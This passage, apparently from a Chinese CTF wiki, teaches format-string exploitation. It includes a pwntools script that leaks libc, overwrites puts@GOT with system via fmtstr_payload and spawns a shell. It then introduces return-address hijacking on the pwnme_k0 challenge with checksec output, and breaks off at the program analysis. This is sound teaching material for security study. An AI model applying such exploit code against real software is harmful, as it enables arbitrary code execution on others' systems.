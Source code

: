 ```python
## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

注意

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。
- 这里我利用了 pwntools 中的 fmtstr\_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr\_payload(7, {puts\_got: system\_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts\_got 地址处写入 system\_addr 地址。默认情况下是按照字节来写的。

## hijack retaddr

### 原理

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

### 例子

这里我们以 [三个白帽-pwnme_k0](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/linux/user-mode/fmtstr/三个白帽-pwnme_k0) 为例进行分析。

#### 确定保护

```shell
➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

可以看出程序主要开启了 NX 保护以及 Full RELRO 保护。这我们就没有办法修改程序的 got 表了。

#### 分析程序
